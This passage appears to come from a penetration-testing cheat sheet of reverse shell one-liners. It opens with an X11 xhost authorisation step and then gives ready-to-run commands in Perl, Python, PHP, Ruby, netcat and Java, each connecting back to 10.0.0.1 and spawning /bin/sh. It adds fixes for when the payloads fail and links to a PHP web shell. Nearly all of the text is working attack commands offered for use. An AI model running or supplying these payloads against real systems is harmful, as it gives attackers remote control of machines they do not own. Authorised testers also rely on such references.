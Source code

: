 Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip



### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell]


perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an [alternative PERL revere shell here]

### Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

r = Runtime.getRuntime()
p = r.exec(\["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \\$line 2>&5 >&5; done"\] as String\[\])
p.waitFor()

\[Untested submission from anonymous reader\]